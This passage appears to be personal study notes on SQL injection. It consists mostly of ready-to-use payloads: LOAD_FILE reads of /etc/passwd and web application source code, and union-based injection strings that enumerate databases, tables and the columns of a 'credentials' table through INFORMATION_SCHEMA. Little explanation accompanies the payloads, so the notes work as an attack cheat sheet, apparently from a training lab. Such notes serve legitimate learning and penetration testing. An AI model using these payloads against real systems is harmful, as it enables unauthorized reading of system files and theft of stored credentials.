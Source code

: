 To load files:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

In union injection:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

Can also get source code:

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

### INFORMATION\_SCHEMA Database

Check tables in current database:

```SQL
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

The INFORMATION\_SCHEMA database contains metadata about the databases and tables present on the server.

To reference table in other database use :

```sql
SELECT * FROM my_database.users;
```

The table SCHEMATA in the INFORMATION\_SCHEMA database contains information about all databases on the server: The schema\_name column contains all database names

```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

To find current database:

```sql
cn' UNION select 1,database(),2,3-- -
```

To get the table schema of the database called _dev_

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

The **TABLE\_NAME** column stores table names, while the **TABLE\_SCHEMA** column points to the database each table belongs to These are the tables in dev database: !\[\[SQL & SQL Injection-3.png]]

To find column names of credential table:

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
